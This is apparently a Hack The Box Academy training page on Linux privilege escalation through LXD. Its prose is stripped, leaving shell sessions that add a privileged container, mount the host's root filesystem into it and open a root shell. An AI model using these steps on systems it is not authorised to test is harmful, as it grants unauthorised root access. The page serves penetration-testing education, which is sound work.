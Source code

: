 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/51/section/1588
// Platform Version: V1
// Module ID: 51
// Module Name: Linux Privilege Escalation
// Module Difficulty: Easy
// Section ID: 1588
// Section Title: LXD
// Page Title: Hack The Box - Academy
// Page Number: 14
-->

# LXD

**Module Name:** Linux Privilege Escalation **Page Number:** 14

#### 

#### LINUX PRIVILEGE ESCALATION

# Containers

## Linux Containers

#### Linux Daemon

``` shell-session
container-user@nix02:~$ id

uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```

``` shell-session
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls

ubuntu-template.tar.xz
```

``` shell-session
container-user@nix02:~$ lxc image import ubuntu-template.tar.xz --alias ubuntutemp
container-user@nix02:~$ lxc image list

+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
|                ALIAS                | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |      TYPE       |   SIZE    |          UPLOAD DATE          |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
| ubuntu/18.04 (v1.1.2)               | 623c9f0bde47 | no    | Ubuntu bionic amd64 (20221024_11:49)     | x86_64       | CONTAINER       | 106.49MB  | Oct 24, 2022 at 12:00am (UTC) |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
```

``` shell-session
container-user@nix02:~$ lxc init ubuntutemp privesc -c security.privileged=true
container-user@nix02:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

``` shell-session
container-user@nix02:~$ lxc start privesc
container-user@nix02:~$ lxc exec privesc /bin/bash
root@nix02:~# ls -l /mnt/root

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
drwx------   6 root root  4096 Sep 26 21:11 root
drwxr-xr-x  28 root root   920 Oct 24 13:32 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct  7  2021 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
dr-xr-xr-x  13 root root     0 Oct 24 13:28 sys
drwxrwxrwt  13 root root  4096 Oct 24 13:44 tmp
drwxr-xr-x  14 root root  4096 Sep 22 11:11 usr
drwxr-xr-x  13 root root  4096 Apr 23  2020 var
```

# 

# 

#### Questions

####